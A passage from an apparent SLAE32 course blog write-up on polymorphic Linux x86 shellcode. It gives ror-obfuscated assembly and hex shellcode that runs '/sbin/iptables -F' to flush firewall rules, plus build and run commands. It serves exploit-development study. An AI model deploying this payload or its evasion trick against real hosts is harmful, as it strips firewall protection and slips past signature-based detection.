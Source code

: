 ### Polymorphic Shellcode

I've modified the shellcode by adding `ror` (right rotate) instruction.

{% highlight nasm linenos %}
global _start

_start:
    xor eax,eax
    push eax
    push word 0x8c5a  ; -F : ror 1
    ror word [esp], 1
    mov esi,esp

    push eax
    push 0xe6cad8c4   ; selb : ror 1
    ror dword [esp], 1
    push 0xc2e8e0d2   ; atpi : ror 1
    ror dword [esp], 1
    push 0x5e5edcd2   ; /nib : ror 1
    ror dword [esp], 1
    push 0xc4e65e5e   ; bs// : ror 1
    ror dword [esp], 1
    mov ebx,esp
    
    push eax          ; null
    push esi          ; F-
    push ebx          ; selbatpi//nibs//
    mov ecx,esp
    
    mov  edx,eax
    mov  al,0xe
    sub  al,0x3
    int  0x80
{% endhighlight %}

### POC

To compile and run the shellcode i've created the helper script `Makefile` to automate the repetitive tasks, please refer to ["Shell Bind TCP Shellcode"](http://localhost:8080/jekyll/update/2020/02/01/1-Shell-Bind-Tcp.html#helper-script) page.

- Compile the assembly code: `make target=filename`
- Run the shellcode C wrapper: `make target=filename run-shellcode`

#### Original Shellcode

{% highlight console linenos %}
root@ubuntu:/home/kecebong/slae32/assigment/poly# make target=iptables hex
[*] Size of Shellcode:
   text    data     bss     dec     hex filename
     43       0       0      43      2b iptables

[*] Shellcode:
"\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74
\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89
\xc2\xb0\x0b\xcd\x80"
{% endhighlight %}
